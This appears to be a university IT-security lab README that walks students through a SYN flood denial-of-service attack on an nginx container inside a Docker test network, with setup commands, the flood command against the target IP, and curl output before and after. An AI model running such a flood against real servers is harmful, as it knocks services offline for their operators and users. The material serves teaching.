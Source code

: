 # Grundlagen IT-Sicherheit - Practical Exercise 1 - SYN_flood

In this small exercise you will perform a synflooding attack using a program written in `C` on our target and thus make the 404 response site of Nginx unreachable for third parties. We will not deal with the exact implementation here. It is merely a matter of carrying out the attack in practice.

## Preparation

To perform this exercise you must have `Docker` installed and running. Then you can use docker compose with the following command to create the containers and the associated network:

```bash
>>> docker-compose build
```

After everything has been successfully downloaded and builded, you can start our test scenario with the following command:

```bash
>>> docker-compose up
```

## Overview

Below you can see a rough flow chart of the exercise. In general, we have three different actors in this setup. One is the actual attacker, who starts the attack. Then the verifier, which is used to verify that our attack is successful. And then, of course, there is the actual victim.

![Synflood Flowchart](synflood_flowchart.jpg)

## Execution

### Preparation

To connect to our attacker we can execute the following command:

```
docker exec -it <name_of_the_container> /bin/sh
```

We then connect to our verifier in a second terminal window.

After that, we can execute a curl command once on our target in the attacker terminal. We see that the 404 Not Found page is returned by nginx. The IP address of our target is also displayed (in my case it is 172.16.0.3).

```bash
>>> curl -v victim
*   Trying 172.16.0.3:80...
* Connected to victim (172.16.0.3) port 80 (#0)
> GET / HTTP/1.1
> Host: victim
> User-Agent: curl/7.76.1
> Accept: */*
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 404 Not Found
< Server: nginx
< Date: Wed, 21 Apr 2021 09:58:12 GMT
< Content-Type: text/html
< Content-Length: 146
< Connection: keep-alive
<
<html>
<head><title>404 Not Found</title></head>
<body>
<center><h1>404 Not Found</h1></center>
<hr><center>nginx</center>
</body>
</html>
* Connection #0 to host victim left intact
```

### Launching the Attack

Now we will execute our attack and make the nginx web service unreachable. To do this, we start synflood and pass the destination IP as the first paramater:

```bash
>>> /synflood 172.16.0.3
Dest addr: 172.16.0.3:80
_
```

Now our target server is permanently flooded with TCP SYN requests.

### Validation

If we now run curl again in our verifier terminal, we should get no response.

```bash
>>> curl -v victim
*   Trying 172.16.0.3:80...
* connect to 172.16.0.3 port 80 failed: Operation timed out
* Failed to connect to victim port 80: Operation timed out
* Closing connection 0
curl: (28) Failed to connect to victim port 80: Operation timed out
```
